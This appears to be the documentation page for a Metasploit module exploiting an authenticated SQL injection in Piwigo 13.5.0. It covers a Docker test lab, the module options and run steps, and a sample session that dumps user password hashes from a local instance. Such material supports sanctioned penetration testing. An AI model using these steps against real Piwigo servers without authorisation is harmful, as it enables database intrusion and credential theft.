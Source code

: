## Vulnerable Application

This module exploits an authenticated SQL injection vulnerability
caused by improper handling of user-supplied input in Piwigo (Photo Gallery).
The vulnerability can be found in Piwigo version 13.5.0.
By exploiting this vulnerability, an attacker can execute arbitrary SQL queries,
potentially gaining unauthorized access to sensitive information or manipulating the database.
For a detailed technical analysis of this vulnerability,
please refer to the [https://github.com/advisories/GHSA-4xvf-3477-vq63](https://github.com/advisories/GHSA-4xvf-3477-vq63).

## Options

To successfully perform a SQL injection attack, you need to configure the module's `RHOSTS`
option with a valid Piwigo endpoint (`TARGETURI`).
Additionally, set the `USERNAME` option to specify the name of a privileged user and provide the corresponding `PASSWORD`.

## Testing

To setup a test environment, the following steps can be performed.

1. Install docker [https://docker.io](docker.io)
2. Inside any directory create the dockerfile below:

```yaml
FROM alpine:3.10.3
LABEL maintainer="Moritz Heiber <hello@heiber.im>"

ENV PIWIGO_VERSION="13.5.0"
RUN set -x && apk --no-cache add curl php7 php7-gd php7-mysqli php7-json php7-session php7-exif && \
curl "http://piwigo.org/download/dlcounter.php?code=${PIWIGO_VERSION}" --output piwigo.zip && \
adduser -h /piwigo -DS piwigo && unzip piwigo.zip -d /piwigo && \
install -d -o piwigo /piwigo/piwigo/galleries /piwigo/piwigo/upload && \
chown -R piwigo /piwigo/piwigo/local && \
apk --no-cache del curl && rm piwigo.zip

WORKDIR /piwigo
USER piwigo

CMD ["php","-S","0.0.0.0:8000","-t","piwigo"]
```

3. Install `docker-compose` and create a file called `docker-compose.yml` with the following content:

```yaml
  version: '3'
        services:
          piwigo:
            container_name: piwigo
            image: piwigo-docker
            networks:
              - piwigo
            ports:
              - "8000:8000"
          mysql:
            container_name: piwigo_mysql
            image: mysql:8.0.18
            command: ["--default-authentication-plugin=mysql_native_password"]
            networks:
              - piwigo
            environment:
              MYSQL_USER: "piwigo"
              MYSQL_PASSWORD: "piwigo"
              MYSQL_DATABASE: "piwigo"
              MYSQL_RANDOM_ROOT_PASSWORD: "true"

        networks:
          piwigo:
```

4. Execute the commands `docker build -t piwigo-docker .` and `docker-compose up -d`
   inside the folder that contains the `docker-compose.yml` and `Dockerfile` files.
5. Then Piwigo's installation page should be available at http://localhost:8000
6. Setup the database with `mysql` as url of database, **piwigo** as `username` **piwigo** as `password`
7. Login as privilege user and create any photo album and upload any photo to that album.

## Verification Steps

1. Start `msfconsole`
2. Use the `auxiliary/gather/piwigo_cve_2023_26876 module`.
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. Set the `TARGETURI` option to the target HTTP path
5. Set the `USERNAME` option to piwigo.
6. Set the `PASSWORD` option to piwigo.
7. `run`

## Scenarios

### Piwigo SQL Injection

```
msf auxiliary(gather/piwigo_cve_2023_26876) > show options

Module options (auxiliary/gather/piwigo_cve_2023_26876):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   piwigo           yes       The password for authenticating to Piwigo
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to Piwigo
   USERNAME   piwigo           yes       The username for authenticating to Piwigo
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(gather/piwigo_cve_2023_26876) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running Piwigo with version 13.5.0
[*] Try to log in..
[+] Successfully logged into Piwigo
[+] Target is vulnerable
[*] Dump of usernames and hashes:

Piwigo Users
============

 username  hash
 --------  ----
 admin     $P$GAO2fLIGJtRyQCNf96KbQ9PeiDAuii/
 guest
 piwigo    $P$GNrJljahQW2NXTXhWNZdalgGiao/T1/
 test1     $P$G2HB46S.PMs5gExCAfXCMUW2p1HwA60
 user      $P$GE/wX1wqKM0WKkAGXvhYihdPhgl5Mw/

[*] Auxiliary module execution completed
msf auxiliary(gather/piwigo_cve_2023_26876) >
```
